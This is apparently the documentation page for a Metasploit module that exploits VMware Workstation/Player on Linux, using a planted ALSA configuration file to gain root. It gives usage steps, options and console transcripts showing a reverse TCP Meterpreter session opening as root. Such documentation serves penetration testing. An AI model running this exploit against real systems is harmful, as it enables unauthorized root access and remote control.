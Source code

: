 ## Description

  This module exploits a vulnerability in VMware Workstation Pro and
  Player on Linux which allows users to escalate their privileges by
  using an ALSA configuration file to load and execute a shared object
  as `root` when launching a virtual machine with an attached sound card.


## Vulnerable Application

  VMware Workstation Pro and VMware Workstation Player are the industry
  standard for running multiple operating systems as virtual machines on
  a single PC. Thousands of IT professionals, developers and businesses
  use Workstation Pro and Workstation Player to be more agile, more
  productive and more secure every day.

  This module has been tested successfully on:

  * VMware Player version 12.5.0 on Debian Linux 8 Jessie


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/vmware_alsa_config`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new `root` session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)

  **Xdisplay**

  Display exploit will attempt to use (default: `:0`)


## Scenarios

### Command Shell Session - VMware Player 12.5.0 (Debian 8 Jessie)

  ```
  msf > use exploit/linux/local/vmware_alsa_config 
  msf exploit(linux/local/vmware_alsa_config) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(linux/local/vmware_alsa_config) > set session 1
  session => 1
  msf exploit(linux/local/vmware_alsa_config) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/pSvQHD5S5fh/afLaYVIoUm.so.c' (526 bytes) ...
  [*] Writing '/tmp/pSvQHD5S5fh/pSvQHD5S5fh.vmx' (560 bytes) ...
  [*] Writing '/tmp/pSvQHD5S5fh/jl7XmpZWdE' (964720 bytes) ...
  [*] Writing '/home/user/.asoundrc' (116 bytes) ...
  [*] Launching VMware Player...
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.208:57796) at 2018-12-17 02:43:22 -0500
  [+] Deleted /home/user/.asoundrc
  [+] Deleted /home/user/Desktop/~/.vmware/preferences
  [!] Attempting to delete working directory /tmp/pSvQHD5S5fh
  [-] Exploit failed: negative array size (or size too big)

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.208
  OS           : Debian 8.8 (Linux 3.16.0-4-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

### Meterpreter Session - VMware Player 12.5.0 (Debian 8 Jessie)

  ```
  msf > use exploit/linux/local/vmware_alsa_config 
  msf exploit(linux/local/vmware_alsa_config) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf exploit(linux/local/vmware_alsa_config) > set session 1
  session => 1
  msf exploit(linux/local/vmware_alsa_config) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Writing '/tmp/5irkXF31Iw/GHAPsWBkjix.so.c' (527 bytes) ...
  [*] Writing '/tmp/5irkXF31Iw/5irkXF31Iw.vmx' (558 bytes) ...
  [*] Writing '/tmp/5irkXF31Iw/Rxqj9taEcXol' (964720 bytes) ...
  [*] Writing '/home/user/.asoundrc' (116 bytes) ...
  [*] Launching VMware Player...
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.208:57799) at 2018-12-17 02:46:39 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.208
  OS           : Debian 8.8 (Linux 3.16.0-4-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

